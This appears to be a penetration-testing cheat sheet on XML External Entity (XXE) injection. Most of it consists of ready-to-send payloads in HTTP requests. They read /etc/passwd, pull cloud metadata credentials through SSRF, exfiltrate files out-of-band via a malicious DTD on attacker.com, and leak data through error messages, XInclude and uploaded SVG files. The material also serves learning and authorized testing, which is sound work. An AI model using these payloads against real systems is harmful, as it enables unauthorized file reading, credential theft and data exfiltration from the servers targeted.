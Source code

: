 # ⭕ XML External Entity (XXE) Injection

## <mark style="color:red;">Intro</mark>

The XML document type definition (DTD) contains declarations that can define the structure of an XML document. The DTD is declared within the optional DOCTYPE element at the start of the XML document.

XXE are a type of custom XML entity whose defined values are loaded from outside of the DTD.

Allows an attacker to interfere with an application's processing of XML data.

#### <mark style="color:red;">**Examples**</mark>

* Custom entities to be defined within the DTD\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`myentity`</mark>` ``"`<mark style="color:yellow;">`my entity value`</mark>`" > ]>`&#x20;
* XML external entities\
  uses the "SYSTEM" keyword and must specify a URL\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`http://normal-website.com`</mark>`" > ]>`\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`file:///path/to/file`</mark>`" > ]>`&#x20;

## <mark style="color:red;">Types of XXE attacks</mark>

### <mark style="color:orange;">Exploiting XXE to retrieve files</mark>

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

### <mark style="color:orange;">Exploiting XXE to perform SSRF attacks</mark>

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/admin/security-credentials"> ]><MainTag><VulTag>&ssrf;</VulTag></MainTag>
```

### <mark style="color:orange;">Blind XXE vulnerabilities</mark>

Does not return the values of any defined external entities within its responses.

```
// Edit HTTP request with "BurpSuit Proxy"
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client)

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> ]>]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

```
// Edit HTTP request with "BurpSuit Proxy"
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client) + XML parameter entity

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> %xxe; ]>
```

Use the FTP protocol instead of HTTP, it will be possible to exfiltrate data containing newline character

### <mark style="color:orange;">Exploiting blind XXE exfiltrate data out-of-band</mark>

* Attacker create a malicious DTD on his server (malicious.dtd) like:

```
// "malicious.dtd" File

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

* Attacker must submit the following XXE payload to the vulnerable application:

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]> 
```

* Use the FTP protocol instead of HTTP, it will be possible to exfiltrate data containing newline characters

## <mark style="color:red;">Exploiting blind XXE to retrieve data via error messages</mark>

<mark style="color:green;">**First method**</mark>

* Attacker create a malicious DTD on his server (malicious.dtd) like:

```
// "malicious.dtd" File

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

* Attacker must submit the following XXE payload to the vulnerable application:

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]> 
```

<mark style="color:green;">**Second method**</mark>

* Retrieve data via repurposing a local DTD

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM 
&#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]> 
```



## <mark style="color:red;">Finding hidden attack surface for XXE injection</mark>

### <mark style="color:orange;">XInclude attacks</mark>

Some applications receive client-submitted data, embed it on the server-side into an XML document like: backend SOAP service.

"XInclude" is a part of the XML specification that allows an XML document to be built from sub-documents.

```
// Edit HTTP request with "BurpSuit Proxy"
POST /product/stock HTTP/1.1
Host: web-security-academy.net
...
Connection: close

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> &storeId=1
```

### <mark style="color:orange;">XXE attacks via file upload</mark>

If uploaded files which are then processed server-side, it can be vulnerable. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

Create a SVG image with this payload and upload it. The result will be on the image.

<pre><code><strong>&#x3C;?xml version="1.0" standalone="yes"?>&#x3C;!DOCTYPE test [ &#x3C;!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>&#x3C;svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">&#x3C;text font-size="16" x="0" y="16">&#x26;xxe;&#x3C;/text>&#x3C;/svg>
</strong></code></pre>

### <mark style="color:orange;">XXE attacks via modified content type</mark>

You might be able submit the following request, with the same result.

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

Server parses the body content as XML, then you can reach the hidden XXE attack surface
